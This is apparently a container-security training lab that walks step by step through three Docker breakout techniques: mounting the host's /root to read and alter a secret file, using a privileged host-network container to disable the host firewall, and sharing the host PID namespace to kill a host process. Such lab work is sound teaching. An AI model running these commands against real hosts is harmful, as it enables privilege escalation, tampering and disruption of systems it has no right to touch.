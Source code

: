 # Container Breakout - Multiple Attacks

> #### Gaining access and tampering Host resources from a container

### **Lab Image : Containers**

---

## Volume Mounts

* Step 1: Validate that you are the `root` user on the provisioned server

```commandline
whoami
```

* Step 2: Validate that there's a secret file in the root directory

```commandline
cat /root/secret.txt
```

* Step 3: Switch to a non-root user

```commandline
sudo su we45
```
* Step 4: Validate that you are now `we45` user on the provisioned server

```commandline
whoami
```

* Step 5: Check if the non-root user(`we45`) has access to `docker`

```commandline
docker images
```

```commandline
docker ps
```

* Step 6: Try to read the contents of the `secret` file created by the `root` user

```commandline
cat /root/secret.txt
```

* Step 7: As a non-root user(`we45`), launch a container and expose the root-filesystem

```commandline
docker run -ti --rm -v /root:/hostFS/ alpine sh
```

* Step 8: On the container, try to read.

```commandline
cat /hostFS/secret.txt
```

* Step 9: On the container, try and edit the secret file.

```commandline
echo "Tampered data!!" >> /hostFS/secret.txt
```

* Step 10: Read the edited secret file from the container

```commandline
cat /hostFS/secret.txt
```

* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Switch to `root` user

```commandline
exit
```

* Step 13: Now read the secret file as a `root` user

```commandline
cat /root/secret.txt
```

### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## Host Network

---

* Step 1: Check `ufw` status

```commandline
ufw status
```

* Step 2: Enable `ufw`

```commandline
ufw enable
```
* Step 3: Check `ufw` status now

```commandline
ufw status
```

* Step 4: Launch a container binding the host network to the docker network

```commandline
docker run -d --name vul_flask -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
```

* Step 5: Exec into the container environment

```commandline
docker exec -ti vul_flask /bin/bash
```

* Step 6: Check `ufw` is it installed or not inside the container

```commandline
ufw status
```

* Step 7: Now install `ufw` inside the container

```commandline
apt update && apt install -y ufw
```

* Step 8: Check the status of the firewall inside the container

```commandline
ufw status
```

* Step 9: Disable the host machine firewall from a container

```commandline
ufw disable
```
* Step 10: Check the `ufw` status

```commandline
ufw status
```
* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Now check `ufw` status in the server

```commandline
ufw status
```

### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## PID Boundary

---

* Step 1: Navigate to the `Container Breakout` directory on the provisioned server

```commandline
cd /root/container-training/Container/container-breakout/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 3: Create a "Super Important Process" that is to be tampered with

```commandline
command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
```

```commandline
printf "$command" > super_important_process.sh && chmod +x super_important_process.sh
```

* Step 4: Run the "Super Important Process" that was just created and fetch the `Process-ID`

```commandline
./super_important_process.sh
```

* Step 5: With `tmux`, switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 6: Launch a container and mount the host processes on the container

```commandline
docker run -ti --pid=host --privileged alpine sh
```

* Step 7: Inside the container, try to terminate the "Super Important Process" 

```commandline
kill <Super important process running PID>
```

* Step 8: Exit from the container

```commanline
exit
```

* Step 9: Exit from the `tmux`

```commanline
exit
```

```commanline
exit
```

## Teardown:

* Stop all the containers

```commandline
clean-docker
```
